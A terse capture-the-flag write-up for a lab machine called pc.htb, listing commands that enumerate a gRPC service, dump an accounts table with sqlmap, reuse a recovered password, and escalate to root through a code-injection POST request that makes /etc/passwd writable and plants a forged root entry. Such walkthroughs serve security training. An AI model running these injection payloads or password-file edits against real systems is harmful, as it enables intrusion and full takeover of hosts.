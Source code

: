 ## Solver
Referensi : https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9

Nmap got output port 50051
Try curl to that port, curl output Received HTTP/0.9 when not allowed
https://stackoverflow.com/questions/59048926/php-curl-received-http-0-9-when-not-allowed
we got about grpc

./grpcurl -plaintext pc.htb:50051 list
./grpcurl -plaintext pc.htb:50051 list SimpleApp

~/go/bin/grpcui -plaintext pc.htb:50051

sqlmap -r post-getInfo.txt --dbms=SQLite -T accounts --dump

sau:HereIsYourPassWord1431

privesc
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20777%20/etc/passwd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'

openssl passwd -1 -salt banua banua
edit /etc/passwd root:x root:$1$banua$xzkGqvbxfOF4USQtALv251
su root
password banua
